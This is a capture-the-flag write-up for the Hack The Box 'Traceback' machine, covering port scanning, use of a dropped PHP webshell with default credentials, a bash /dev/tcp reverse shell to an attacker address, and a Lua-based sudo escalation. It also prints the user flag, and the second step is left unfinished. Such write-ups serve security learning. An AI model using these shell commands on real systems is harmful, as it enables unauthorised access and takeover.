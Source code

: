 # TraceBack
> Write-up author: jon-brandy


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a5389983-7994-42b7-87d6-c39c262b8597)


## Lessons Learned:
1. Enumeration.
2. Utilizing dropped backdoor.
3. Writing Lua.
4. Generating ssh-key to get a stable shell.
5. Manipulating SSH Motd.

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sV -sC traceback.htb --min-rate 1000 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-25 19:53 PDT
Nmap scan report for traceback.htb (10.10.10.181)
Host is up (0.017s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9625518e6c830748ce114b1fe56d8a28 (RSA)
|   256 54bd467114bdb242a1b6b02d94143b0d (ECDSA)
|_  256 4dc3f852b885ec9c3e4d572c4a82fd86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Help us
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.67 seconds
```

1. Based from the nmap results above, seems the machine runs web application at port 80 and opens ssh login at port 22.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0ed872db-def1-40fd-b05b-f01b2f8d6548)


2. Seems the webapp is already compromised and the attacker left a backdoor which is accessible he said.
3. Hence let's execute directory listing using **dirsearch**.
4. However, dirsearch resulting to none. It means the webshell filename is not common.
5. Reviewing the message shown, resulting to no clue other than searching the `Xh4H` name online.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f7d67e1f-c1d5-4919-b0f7-3617db19484b)



6. Traversing on the internet resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f5d980a2-9a97-4b54-a70e-a82e3600451a)


7. Adding **webshell** to our search query, resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/75d799d5-5024-41b6-bf40-3d71becb4ddc)


8. The first result, should be our interest.

> GITHUB

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1384da27-8377-4203-b854-bb513772c9e8)

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e6c49331-c7e6-4672-9fe2-3b2ca7ab052a)


9. Enumerating each webshell file, the backdoor dropped is --> `smevk.php`.

> Enter creds --> `admin:admin` (shown at the source code).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/363c04a5-96e9-4972-b799-ee967df3f46e)


10. Indeed it seems the best backdoor 🤲🏻.
11. Long story short, after traversing to `/home/webadmin`, found a note from sysadmin team.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/051e6bac-d543-485c-8429-a6da4faa6d3b)

12. Reviewing the bash history file, found that a binary named **luvit** seems inside the sudo permission.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fd1ac823-a2ee-4330-ad17-afd3a7a4c729)


13. This could be used for our privesc method.
14. Great! Anyway let's get more comfy enumeration by getting a reverse shell.
15. I used simple bash reverse shell:

```txt
bash -c 'bash -i >& /dev/tcp/10.10.14.4/1337 0>&1'
```

16. Set up a listener at port **1337** than enter it on the **execute** box.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ef6adcff-da39-4c24-bc8b-1fe47e9bbeea)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2a27e9b7-5e5d-4ad5-9b8c-70f7baa8668c)


17. Remembering the **luvit** binary is inside the **sysadmin** home directory, we need to traverse there, but currently we are denied.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c7ab4b96-ae8f-45df-8825-c177f4ff3123)


18. BUT thing to note, upon checking the sudo permission seems **luvit** is executable by any user.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/30fcc402-ea95-46e5-83d8-9b12e350fb76)


19. Remembering we can specify a username, hence introducing 2 steps can be done to gain access to sysadmin's home directory.
20. The first step is using the **luvit** binary, the second method is by generating the ssh-keys to get stable shell as **sysadmin**.

===

### 1st Step

- Sending shell spawn LOCs to lua.

```
echo "require('os');" > sysad.lua
echo "os.execute('/bin/bash');" > sysad.lua
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b472f3aa-ca88-4f55-93a5-b44f419c6402)


> GETTING USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/54a0f835-d4c9-4fda-a9d1-840b85d5aa60)


### 2nd Step

- Generating ssh-keys

  

## USER FLAG

```
4835038ff249e1ae23de765fc1110e3d
```

## IMPORTANT LINKS

```

```
